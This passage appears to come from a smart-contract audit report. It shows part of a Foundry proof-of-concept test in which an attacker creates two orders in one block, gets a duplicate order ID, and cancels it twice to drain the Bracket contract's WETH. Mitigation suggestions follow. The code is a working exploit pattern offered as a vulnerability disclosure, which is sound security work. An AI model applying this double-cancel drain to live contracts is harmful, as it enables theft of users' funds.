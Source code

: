 ```solidity
            stopSlippage: 0,
            permit: false,
            permitPayload: new bytes(0)
        });

        // 2. attacker create second order in the same block
        bracket.createOrder({
            swapPayload: new bytes(0),
            takeProfit: type(uint128).max,
            stopPrice: 0,
            amountIn: 1 ether,
            tokenIn: weth,
            tokenOut: usdc,
            recipient: address(this),
            feeBips: 0,
            takeProfitSlippage: 0,
            stopSlippage: 0,
            permit: false,
            permitPayload: new bytes(0)
        });

        // Assume that there are funds in the contract
        weth.transfer(address(bracket), 1 ether);

        uint256 bracketBalanceBefore = weth.balanceOf(address(bracket));

        bracket.cancelOrder(orderId);
        bracket.cancelOrder(orderId);

        uint256 bracketBalanceAfter = weth.balanceOf(address(bracket));

        // contract pays 2 ether, which is higher than attacker's order amount -> funds drained
        assertEq(bracketBalanceBefore, bracketBalanceAfter + 2 ether);
    }
}
```

Prepare a foundry test like above
Run the test `test_DuplicatedOrderId` and the test succeeded.

### Mitigation

Consider approaches:
1/ Check if order existed
2/ Update the order id generation logic in order to allow users to create many orders in 1 block